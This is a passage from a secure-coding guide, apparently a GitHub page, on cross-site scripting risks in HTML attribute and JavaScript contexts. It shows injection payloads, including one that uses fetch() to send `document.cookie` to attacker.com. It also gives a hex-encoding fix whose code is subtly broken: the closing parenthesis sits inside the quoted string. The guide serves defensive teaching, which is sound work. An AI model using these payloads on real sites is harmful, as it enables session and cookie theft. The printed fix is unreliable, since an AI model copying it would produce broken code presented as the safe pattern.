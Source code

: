 **Gotcha #1:** For most attributes, escaping values is sufficient. However, beware special attributes like `src` and `href`. For example, `<script src='USER_DATA_HERE'></script>` is never safe, even if you escape the attribute value. Attacker-supplied [`javascript:`](https://developer.mozilla.org/en-US/docs/Web/URI/Schemes/javascript), [`data:`](https://developer.mozilla.org/en-US/docs/Web/URI/Schemes/data), and `file:` URLs can be particularly dangerous here.

**Gotcha #2:** Untrusted input needs additional sanitization in `on*` attributes. For example, the following code is vulnerable:

```html
<div onmouseover='handleHover(USER_DATA_HERE)'>
```

If the user data is `); alert(document.cookie`, then the resulting HTML will be `<div onmouseover='handleHover(); alert(document.cookie)'>`. Additional characters must be escaped in this context.

### JavaScript Context
This is when data needs to be embedded within JavaScript code. This context is particularly dangerous because it is hard to safely and reliably escape JavaScript in the context of an HTML file.

Example vulnerability:
```javascript
const userName = getUserInput();
const script = `
  <script>
    const user = "${userName}";
    showGreeting(user);
  </script>
`;
```

If the user input is the following string:
```
"; fetch('https://attacker.com/steal?c='+document.cookie); "
```

Then the browser will render this HTML:

```html
<script>
  const user = ""; fetch('https://attacker.com/steal?c='+document.cookie); "";
  showGreeting(user);
</script>
```

One way to safely embed user data is to encode it using hexadecimal or base64, embed the encoded string into the script context, and then decode the string from within the script. For example:

```javascript
const userName = getUserInput();
const script = `
  <script>
    const user = hexDecode("${hexEncode(userName)})";
    showGreeting(user);
  </script>
`;
```
